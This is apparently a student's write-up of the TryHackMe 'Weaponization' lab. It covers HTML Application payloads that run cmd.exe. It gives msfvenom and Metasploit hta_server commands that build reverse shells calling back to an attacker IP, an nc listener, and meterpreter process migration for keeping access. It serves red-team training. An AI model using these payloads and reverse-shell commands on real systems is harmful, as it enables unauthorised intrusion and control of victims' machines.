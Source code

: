![image](https://user-images.githubusercontent.com/51442719/180655800-ab7238f2-e777-4ea2-8203-8c2a0ca86566.png)

# [Weaponization](https://tryhackme.com/room/weaponization)
> #### Understand and explore common red teaming weaponization techniques. 
> #### You will learn to build custom payloads using common methods seen in the industry to get initial access.

---

- [x] [Task 1  Introduction](#task-1--introduction)
- [x] [Task 2  Deploy the Windows Machine](#task-2--deploy-the-windows-machine)
- [x] [Task 3  Windows Scripting Host - WSH](#task-3--windows-scripting-host---wsh)
- [x] [Task 4  An HTML Application - HTA](#task-4--an-html-application---hta)
- [x] [Task 5  Visual Basic for Application - VBA](#task-5--visual-basic-for-application---vba)
- [x] [Task 6  PowerShell - PSH](#task-6--powershell---psh)
- [x] [Task 7  Command And Control - (C2 Or C&C)](#task-7--command-and-control---c2-or-cc)
- [x] [Task 8  Delivery Techniques](#task-8--delivery-techniques)
- [x] [Task 9  Practice Arena](#task-9--practice-arena)

---

# [Task 1  Introduction]()

---

# [Task 2  Deploy the Windows Machine]()

---

# [Task 3  Windows Scripting Host - WSH]()

---

# [Task 4  An HTML Application - HTA]()

### An HTML Application (HTA)
- HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered.
- HTML Applications, also known as HTAs, which are dynamic `HTML` pages containing JScript and VBScript. 
- The LOLBINS (Living-of-the-land Binaries) tool `mshta` is used to execute HTA files. 
- It can be executed by itself or automatically from Internet Explorer. 

#### In the following example, we will use an [`ActiveXObject`](https://en.wikipedia.org/wiki/ActiveX) in our payload as proof of concept to execute `cmd.exe`. 
- Consider the following HTML code.
```hta
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
- Then serve the `payload.hta` from a web server, this could be done from the attacking machine as follows,
```cmd
python3 -m http.server 8090
```
- On the victim machine, visit the malicious link using Microsoft Edge, `http://10.8.232.37:8090/payload.hta`. Note that the `10.8.232.37` is the AttackBox's IP address.
  > ![image](https://user-images.githubusercontent.com/51442719/180656414-2cc1cad9-0fc5-4cc0-9cc1-087a192999ae.png)
- Once we press `Run`, the `payload.hta` gets executed, and then it will invoke the `cmd.exe`. 
- The following figure shows that we have successfully executed the `cmd.exe`.
  > ![image](https://user-images.githubusercontent.com/51442719/180656440-dda92953-4d5e-4541-8dec-74e52b781866.png)

#### HTA Reverse Connection
- We can create a reverse shell payload as follows,
```cmd
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
- We use the `msfvenom` from the `Metasploit` framework to generate a malicious payload to connect back to the attacking machine. 
- We used the following payload to connect the `windows/x64/shell_reverse_tcp` to our IP and listening port.
- On the attacking machine, we need to listen to the port `443` using `nc`. 
- Please note this port needs root privileges to open, or you can use different ones.
- Once the victim visits the malicious URL and hits run, we get the connection back.
```cmd
sudo nc -lvp 443
```

### Malicious HTA via Metasploit 
- There is another way to generate and serve malicious HTA files using the Metasploit framework. 
- First, run the Metasploit framework using `msfconsole -q` command. 
- Under the exploit section, there is `exploit/windows/misc/hta_server`, which requires selecting and setting information such as `LHOST`, `LPORT`, `SRVHOST`, `Payload`, and finally, executing `exploit` to run the module.
```cmd
use exploit/windows/misc/hta_server
```
```cmd
set LHOST 10.8.232.37
```
```cmd
set LPORT 443
```
```cmd
set SRVHOST 10.8.232.37
```
```cmd
set payload windows/meterpreter/reverse_tcp

```
```cmd
exploit
```
- On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.
```cmd
meterpreter > sysinfo
```




---

# [Task 5  Visual Basic for Application - VBA]()

---

# [Task 6  PowerShell - PSH]()

---

# [Task 7  Command And Control - (C2 Or C&C)]()

---

# [Task 8  Delivery Techniques]()

---

# [Task 9  Practice Arena]()

- We have prepared a Windows 10 machine that runs a user simulation web app to execute your payloads or visit the malicious HTA links automatically. 
- Deploy the attached machine and wait a couple of minutes until it's up and running. 
- Then, visit the user simulator web application at `http://10.10.132.115:8080/`.
- Make sure to visit the user simulator web application from the AttackBox, or you can access it by connecting to the VPN.
  > ![image](https://user-images.githubusercontent.com/51442719/180656171-3cd54534-77fc-458a-9d7b-f431ca69280d.png)
- The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.
- **Note for Doc files**: the simulation used in the provided Windows 10 machine will open the malicious Word document and be closed within 90 seconds. 
- In order to get longer prescience, you need to migrate as soon as you receive the connection back. 
- In the Metasploit framework, we can inject our current process into another process on the victim machine using migrate. 
- In our case, we need to `migrate` our current process, which is the MS word document, into another process to make the connection stable even if the MS word document is closed. 
- The easiest way to do this is by using `migrate` post-module as follow,
```cmd
meterpreter > run post/windows/manage/migrate 
```
- In this task, the goal is to generate a reverse shell payload of your choice and send it through the web application. 
- Once the web application runs your payload, you should receive a connect back. 
- Answer the question below and prove your access by finding the flag once you receive a reverse shell.
- For reference, you can use the MSFVenom Cheat Sheet.

### Answer the questions below
- What is the flag? Hint: Check the user desktop folder for the flag!
  > Answer format: [`***{********************************}`]()







